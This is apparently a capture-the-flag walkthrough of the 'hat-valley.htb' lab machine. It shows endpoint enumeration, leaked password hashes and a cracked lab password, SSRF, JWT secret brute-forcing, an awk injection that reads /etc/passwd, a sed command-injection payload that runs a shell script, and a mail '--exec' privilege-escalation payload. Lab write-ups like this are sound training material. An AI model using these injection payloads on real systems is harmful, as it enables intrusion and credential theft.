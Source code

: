 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Accessing port 80 through browser site will redirect to this hostname

baseurl
```bash
http://hat-valley.htb
```
Fuzzing subdomain
```bash
#subdomain
http://store.hat-valley.htb
```
found endpoints from 
```bash
http://hat-valley.htb/js/app.js
```
endpoints

```bash
http://hat-valley.htb/hr
http://hat-valley.htb/dashboard
http://hat-valley.htb/leave
```
api endpoints
```bash
http://hat-valley.htb/api/
http://hat-valley.htb/api/all-leave {Need Auth}
http://hat-valley.htb/submit-leave {reason,start,end} {Need Auth}
http://hat-valley.htb/api/login   {username,password}
http://hat-valley.htb/api/staff-details {No need of auth}
http://hat-valley.htb/api/store-status {url:"value"} {No need of auth}
```

Names from Teams
```bash
jackson Lightheart
bean Hill
christine Wool {CEO}
christopher Jones
```
Login
```bash
http://store.hat-valley.htb {basic Auth}
http://hat-valley.htb/hr   {"username":"password"}
```

This endpoint is vulnerable for access control we don't need any token for getting these data
http://hat-valley.htb/api/staff-details

Found username and it's passwords
```bash
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
```

One hash is crackable
cracked password
```bash
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123
```

SSRF from store-status endpoint and found the backend server listening port 3002 and the response show some api documention
http://hat-valley.htb/api/store-status?url="http://localhost:3002"

Api documentation 
patached.html

Reading the documentation i found a file read in all-leave endpoint

Abusing "awk"   
http://hat-valley.htb/api/all-leave   
This endpoint is used to fetch user leave requests and the endpoint need user token to fetch the details
the mechanisam behind the fetching user details it use awk command (linux command) for getting data from leave requests stored file that is a csv file on target. server will extract username from user token and getting that particuler user data from csv file using awk. we need to foreging the cookie for injecting filename in username feild of the token

```bash
#bruteforceing the cookie using john and jwt2john tool 
jwt secret = 123beany123
```
rawCommand
```bash
awk '/user/' leave_requests.csv
```

abusedCommand
```bash
awk '//' /etc/passwd '/' leave_reve_requests.csv
```

FOOTHOLD

I write a python script for reading file from target

Machine users
```bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

Machine user bean password from home_backup tar file
```bash
bean:014mrbeanrules!#P
```
user to www-data

exploiting sed system command on store.hat-valley.htb

payload
```bash
/' -e '1e /dev/shm/rce.sh' '
```
it work like this
```javascript
{sed -i '/item_id=/' -e '1e /dev/shm/rce.sh' '/d' /var/www/store/cart/randomuser-id}
````

I write a script for getting www-data shell

Privilege escalation through mail command
```bash
#payload
; --exec='!/dev/shm/cmd.sh',pe,pe,pe,pe
```

#scripts are i used for this machine will also upload the awkward directory
